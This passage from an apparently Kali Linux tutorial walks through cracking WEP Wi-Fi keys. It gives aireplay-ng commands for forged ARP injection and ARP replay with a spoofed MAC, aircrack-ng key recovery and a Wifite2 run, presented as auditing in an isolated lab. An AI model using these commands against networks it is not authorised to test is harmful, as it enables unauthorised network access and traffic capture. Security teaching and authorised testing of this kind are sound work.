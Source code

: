 - `-0` Forge ARP request packet (packet type 0)
- `-a` BSSID of the target Access Point
- `-h` Fake MAC address to use as source
- `-k` Source IP address
- `-l` Destination IP address
- `-y` Keystream file generated from fragmentation attack
- `-w` Output file name to save the forged packet

Inject the forged packet into the network:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -2 -r arp-request wlan0
```

This injection causes the AP to generate new encrypted packets, increasing the number of IVs available for capture.
With traffic now stimulated, continue to collect IVs with an ARP replay attack:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng --arpreplay -b <BSSID> -h <fake-MAC> wlan0
```

Monitor the number of IVs captured until you have enough (usually 10,000+).
Finally, crack the WEP key using aircrack-ng:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aircrack-ng wep_frag.cap
```

If successful, you will obtain the WEP key and gain access to the network.

## Automation WEP

As we continue to explore wireless security in a controlled and isolated environment, we can utilize tools like Wifite2 to audit and capture network data. For example, the following command:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo wifite --kill
   .               .    
 .´  ·  .     .  ·  `.  wifite2 2.7.0
 :  :  :  (¯)  :  :  :  a wireless auditor by derv82
 `.  ·  ` /¯\ ´  ·  .´  maintained by kimocoder
   `     /¯¯¯\     ´    https://github.com/kimocoder/wifite2

 [+] option: kill conflicting processes enabled
 [+] Using wlan0 already in monitor mode                                                                         
```

This command helps stop conflicting processes (like `NetworkManager` or `wpa_supplicant`), and sets your wireless interface to monitor mode, which is essential for packet sniffing and capturing data from nearby networks. Once in monitor mode, you can analyze various wireless networks in your environment.
